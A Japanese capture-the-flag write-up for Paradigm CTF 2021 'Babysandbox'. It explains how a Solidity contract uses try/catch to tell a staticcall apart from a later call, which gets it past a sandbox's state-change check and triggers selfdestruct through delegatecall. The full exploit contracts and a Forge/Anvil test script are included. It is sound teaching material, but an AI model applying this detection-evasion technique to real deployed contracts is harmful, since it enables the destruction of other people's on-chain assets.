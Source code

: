 # Paradigm CTF 2021: Babysandbox

## ソース
- [問題コントラクト](challenge)
- [Exploit](BabysandboxExploit.sol)
- [Test](test_exploit.sh)

## 概要
`Babysandbox`コントラクトの`run`関数で`selfdestruct`を実行する問題。ただしステート変化の検知を回避する必要がある。

## Writeup
`assembly`ブロックの1つ目のif文の条件を満たせば、`run`関数の引数であるアドレス`code`に対してdelegatecallできる。

```solidity
if eq(caller(), address()) {
    switch delegatecall(gas(), code, 0x00, 0x00, 0x00, 0x00)
    case 0 {
        returndatacopy(0x00, 0x00, returndatasize())
        revert(0x00, returndatasize())
    }
    case 1 {
        returndatacopy(0x00, 0x00, returndatasize())
        return(0x00, returndatasize())
    }
}
```

よって、アドレス`code`のコントラクトで`selfdestruct`すれば解けそうであるが、単純に`fallback`関数で`selfdestruct`しても失敗する。
というのも、delegatecallを実行する前に`code`に対して同じcalldata (=`""`)でstaticcallが実行され、そのstaticcallが失敗すると、その時点で`run`関数はrevertされる。
つまり、staticcallで`selfdestruct`のようなステートが変化する処理を単純に実行してしまうとdelegatecallに辿り着けない。

```solidity
// run using staticcall
// if this fails, then the code is malicious because it tried to change state
if iszero(staticcall(0x4000, address(), 0, calldatasize(), 0, 0)) { revert(0x00, 0x00) }

// if we got here, the code wasn't malicious
// run without staticcall since it's safe
switch call(0x4000, address(), 0, 0, calldatasize(), 0, 0)
case 0 { returndatacopy(0x00, 0x00, returndatasize()) }
// revert(0x00, returndatasize())
case 1 {
    returndatacopy(0x00, 0x00, returndatasize())
    return(0x00, returndatasize())
}
```

### staticcallを無視したexploit
一旦staticcallでのステート変化の検知を無視する。
delegatecallを実行するには、if文の条件「`caller()`と`address()`の一致」を満たす必要がある。
これは、sandbox内からcallすれば良い。

`call(0x4000, address(), 0, 0, calldatasize(), 0, 0)`の部分を考える。callの引数は、順に`gas`, `address`, `value`, `argsOffset`, `argsSize`, `retOffset`, `retSize`の7つ。
`calldatacopy`によってcalldataはメモリにコピー済みなので、calldata（runの実行部）がそのまま渡されることになる。そしてdelegatecallが`code`に対して実行される。

なので、staticcallを無視すれば、以下のexploitで良い。
```solidity
contract BabysandboxExploit {
    fallback() external {
        selfdestruct(payable(address(0)));
    }
}
```

### staticcallを考慮したexploit
staticcallによってステートの変化が起きる`selfdestruct`は単純に実行できずrevertされる。
しかし1回目のコール（staticcall）と2回目のコール（call）を区別する方法はない。
こういった場合、try/catch文を使えばstaticcallを失敗させずにcallに辿り着き実行を継続させられる。
try文の式には外部関数コールとコントラクト作成のみ指定できるから、外部関数コールで別のコントラクトのステートが変化できるかどうかを試し、もし変化可能ならdelegatecallを実行、そうでないなら何もしない、というようにすれば、staticcallのステート変化検知によるrevertを回避できる。

例えば、以下のようなコードを思いつく。
```solidity
contract StateChange {
    uint a = 0;
    function f() external {
        a++;
    }
}

contract BabysandboxExploit {
    StateChange immutable stateChange;

    constructor() {
        stateChange = new StateChange();
    }

    fallback() external {
        try stateChange.f() {
            selfdestruct(payable(address(0)));
        }
        catch {}
    }
}
```

しかし、これは`OutOfGas`になる。callの`0x4000` (`16384`) gasの制限に引っかかるためである。
これに対処するには`StateChange`の変数を無くし、`selfdestruct`にすると良い。`selfdestruct`を使うことで使えるガス代が増える（関連: [EIP-2200: Structured Definitions for Net Gas Metering ](https://eips.ethereum.org/EIPS/eip-2200), [EIP-3298: Removal of refunds](https://eips.ethereum.org/EIPS/eip-3298)。
最終的なexploitは以下。

```Solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract StateChange {
    function f() external {
        selfdestruct(payable(address(0)));
    }
}

contract BabysandboxExploit {
    StateChange immutable stateChange;

    constructor() {
        stateChange = new StateChange();
    }

    fallback() external {
        try stateChange.f() {
            selfdestruct(payable(address(0)));
        } catch {}
    }
}
```

### Test

```
bash src/ParadigmCTF2021/Babysandbox/test_exploit.sh
```

**Testの解説**

Forgeのtestはtransaction-baseであるため、テストの間は`extcodesize`の結果が変わらない。
Forgeのscript機能とAnvilを組み合わせることでテストを行う。まずはsetup用とplayer用の2つのアカウントを決める。今回はAnvilのデフォルトアカウント（0番目と1番目）を使う。

```sh
export RPC_ANVIL=http://127.0.0.1:8545
export FOUNDRY_ETH_RPC_URL=$RPC_ANVIL

# Anvil account 0
export PRIVATE_KEY_SETUP=ac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80
# Anvil account 1
export PRIVATE_KEY_PLAYER=59c6995e998f97a5a0044966f0945389dc9e86dae88c7a8412f4603b6b78690d
```

次にAnvilを起動する。
```sh
anvil --silent 1>/dev/null &
sleep 1
```
`sleep`は使いたくないが、これを挟んでAnvilが完全に起動するまで待たないと次に実行する`forge script`でRPCのエラーが起きる。

scriptを実行する。
```sh
forge script BabysandboxExploitTestScript --fork-url $RPC_ANVIL --broadcast --private-keys $PRIVATE_KEY_SETUP --private-keys $PRIVATE_KEY_PLAYER --gas-limit 1000000 --gas-estimate-multiplier 200 -vvvvv
```
現在、Forgeのscriptで個別のトランザクションにgasを指定する方法が存在しないため、`--gas-estimate-multiplier 200`を指定する必要がある。関連issue: https://github.com/foundry-rs/foundry/issues/2627 。


解けたかどうか`cast call`で確認する。
```sh
# 31337: chain id of Anvil
SETUP_ADDRESS=$(python -c 'import json; print(json.load(open("broadcast/BabysandboxExploitTest.s.sol/31337/run-latest.json"))["transactions"][0]["contractAddress"])')
# A result of EXTCODESIZE remains the same until a transaction is terminated.
SOLVED=$(cast call $SETUP_ADDRESS "isSolved()(bool)")

pkill anvil

echo "Result:" $SOLVED
```